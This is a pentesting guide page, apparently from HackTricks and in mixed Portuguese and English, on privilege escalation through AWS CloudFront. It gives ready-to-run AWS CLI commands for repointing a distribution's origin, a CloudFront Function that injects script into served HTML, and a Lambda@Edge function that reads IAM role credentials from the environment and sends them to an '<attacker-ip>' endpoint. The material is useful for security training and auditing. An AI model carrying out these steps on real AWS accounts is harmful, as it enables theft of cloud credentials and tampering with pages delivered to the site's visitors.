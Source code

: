 # AWS - CloudFront Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFront

### `cloudfront:UpdateDistribution` & `cloudfront:GetDistributionConfig`

Um atacante que possui as permissões cloudfront:UpdateDistribution e cloudfront:GetDistributionConfig pode modificar a configuração de uma distribuição do CloudFront. O atacante não precisa de permissões no bucket S3 alvo em si, embora o ataque seja mais fácil se esse bucket tiver uma política permissiva que permita acesso do principal de serviço cloudfront.amazonaws.com.

O atacante altera a configuração de origem da distribuição para apontar para outro bucket S3 ou para um servidor controlado pelo atacante. Primeiro ele obtém a configuração atual da distribuição:
```bash
aws cloudfront get-distribution-config --id <distribution-id> | jq '.DistributionConfig' > current-config.json
```
Então eles editam current-config.json para apontar a origem para o novo recurso — por exemplo, um bucket S3 diferente:
```bash
...
"Origins": {
"Quantity": 1,
"Items": [
{
"Id": "<origin-id>",
"DomainName": "<new-bucket>.s3.us-east-1.amazonaws.com",
"OriginPath": "",
"CustomHeaders": {
"Quantity": 0
},
"S3OriginConfig": {
"OriginAccessIdentity": "",
"OriginReadTimeout": 30
},
"ConnectionAttempts": 3,
"ConnectionTimeout": 10,
"OriginShield": {
"Enabled": false
},
"OriginAccessControlId": "E30N32Y4IBZ971"
}
]
},
...
```
Finalmente, aplique a configuração modificada (você deve fornecer o ETag atual ao atualizar):
```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
--id <distribution-id> \
--distribution-config file://current-config.json \
--if-match $CURRENT_ETAG
```

### `cloudfront:UpdateFunction`, `cloudfront:PublishFunction`, `cloudfront:GetFunction`, `cloudfront:CreateFunction` and `cloudfront:AssociateFunction`
An attacker needs the permissions cloudfront:UpdateFunction, cloudfront:PublishFunction, cloudfront:GetFunction, cloudfront:CreateFunction and cloudfront:AssociateFunction to manipulate or create CloudFront functions.

The attacker creates a malicious CloudFront Function that injects JavaScript into HTML responses:

```bash
function handler(event) {
var request = event.request;
var response = event.response;
// Create a new body with malicious JavaScript
var maliciousBody = `
<!DOCTYPE html>
<html>
<head>
<title>Compromised Page</title>
</head>
<body>
<h1>Original Content</h1>
<p>This page has been modified by CloudFront Functions</p>
<script>
// Malicious JavaScript
alert('CloudFront Function Code Injection Successful!');
</script>
</body>
</html>
`;
// Replace the body entirely
response.body = { encoding: "text", data: maliciousBody };
// Update headers
response.headers["content-type"] = { value: "text/html; charset=utf-8" };
response.headers["content-length"] = {
value: maliciousBody.length.toString(),
};
response.headers["x-cloudfront-function"] = { value: "malicious-injection" };
return response;
}
```

Commands to create, publish and attach the function:

```bash
# Criar a função maliciosa no CloudFront
aws cloudfront create-function --name malicious-function --function-config '{
"Comment": "Malicious CloudFront Function for Code Injection",
"Runtime": "cloudfront-js-1.0"
}' --function-code fileb://malicious-function.js

# Obter o ETag da função no estágio DEVELOPMENT
aws cloudfront describe-function --name malicious-function --stage DEVELOPMENT --query 'ETag' --output text

# Publicar a função no estágio LIVE
aws cloudfront publish-function --name malicious-function --if-match <etag>
```

Add the function to the distribution configuration (FunctionAssociations):

```bash
"FunctionAssociations": {
"Quantity": 1,
"Items": [
{
"FunctionARN": "arn:aws:cloudfront::<account-id>:function/malicious-function",
"EventType": "viewer-response"
}
]
}
```

Finally update the distribution configuration (remember to supply the current ETag):

```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution --id <distribution-id> --distribution-config file://current-config.json --if-match $CURRENT_ETAG
```

### `lambda:CreateFunction`, `lambda:UpdateFunctionCode`, `lambda:PublishVersion`, `iam:PassRole` & `cloudfront:UpdateDistribution`

An attacker needs the lambda:CreateFunction, lambda:UpdateFunctionCode, lambda:PublishVersion, iam:PassRole and cloudfront:UpdateDistribution permissions to create and associate malicious Lambda@Edge functions. A role that can be assumed by the lambda.amazonaws.com and edgelambda.amazonaws.com service principals is also required.

The attacker creates a malicious Lambda@Edge function that steals the IAM role credentials:

```bash
// malicious-lambda-edge.js
exports.handler = async (event) => {
// Obtain role credentials
const credentials = {
accessKeyId: process.env.AWS_ACCESS_KEY_ID,
secretAccessKey: process.env.AWS_SECRET_ACCESS_KEY,
sessionToken: process.env.AWS_SESSION_TOKEN,
};
// Send credentials to attacker's server
try {
await fetch("https://<attacker-ip>/steal-credentials", {
method: "POST",
headers: { "Content-Type": "application/json" },
body: JSON.stringify(credentials)
});
} catch (error) {
console.error("Error sending credentials:", error);
}
if (event.Records && event.Records[0] && event.Records[0].cf) {
// Modify response headers
const response = event.Records[0].cf.response;
response.headers["x-credential-theft"] = [
{
key: "X-Credential-Theft",
value: "Successful",
},
];
return response;
}
return {
statusCode: 200,
body: JSON.stringify({ message: "Credentials stolen" })
};
};
```

```bash
# Empacotar a função Lambda@Edge
zip malicious-lambda-edge.zip malicious-lambda-edge.js

# Criar a função Lambda@Edge com um papel privilegiado
aws lambda create-function \
--function-name malicious-lambda-edge \
--runtime nodejs18.x \
--role <privileged-role-arn> \
--handler malicious-lambda-edge.handler \
--zip-file fileb://malicious-lambda-edge.zip \
--region <region>

# Publicar uma versão da função
aws lambda publish-version --function-name malicious-lambda-edge --region <region>
```

Then the attacker updates the CloudFront distribution configuration to reference the published Lambda@Edge version:

```bash
"LambdaFunctionAssociations": {
"Quantity": 1,
"Items": [
{
"LambdaFunctionARN": "arn:aws:lambda:us-east-1:<account-id>:function:malicious-lambda-edge:1",
"EventType": "viewer-response",
"IncludeBody": false
}
]
}
```

```bash
# Aplicar a configuração atualizada da distribuição (deve usar o ETag atual)
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
--id <distribution-id> \
--distribution-config file://current-config.json \
--if-match $CURRENT_ETAG

# Acionar a função fazendo uma requisição à distribuição
curl -v https://<distribution-domain>.cloudfront.net/
```

{{#include ../../../../banners/hacktricks-training.md}}
